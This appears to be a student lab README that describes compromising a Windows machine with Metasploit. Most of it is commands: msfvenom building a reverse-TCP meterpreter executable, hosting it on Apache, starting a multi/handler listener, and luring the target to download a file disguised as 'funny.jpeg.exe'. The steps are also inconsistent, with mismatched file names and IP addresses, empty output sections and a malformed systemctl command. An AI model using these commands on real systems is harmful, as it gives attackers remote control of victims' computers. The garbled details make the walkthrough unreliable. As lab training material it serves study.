




# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
!
Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
copy the fun.exe into the apache /var/www/html folder
Start apache server
sudo systemctl apache2 start

## OUTPUT

Invoke msfconsole:
## OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.149.243/funny.jpeg.exe
The file "fun.exe" downloads. 

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
